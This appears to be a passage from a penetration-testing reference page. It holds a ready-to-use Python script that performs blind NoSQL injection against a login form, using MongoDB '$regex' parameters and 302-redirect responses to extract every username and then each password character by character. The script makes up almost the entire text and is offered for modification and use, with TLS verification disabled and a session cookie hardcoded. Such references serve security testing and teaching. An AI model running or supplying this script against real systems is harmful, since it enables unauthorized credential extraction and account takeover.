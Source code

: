 This is a simple script that you could modify but the previous tools can also do this task.

```python
import requests
import string

url = "http://example.com"
headers = {"Host": "exmaple.com"}
cookies = {"PHPSESSID": "s3gcsgtqre05bah2vt6tibq8lsdfk"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"", "login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames


for u in get_usernames():
    get_password(u)
```
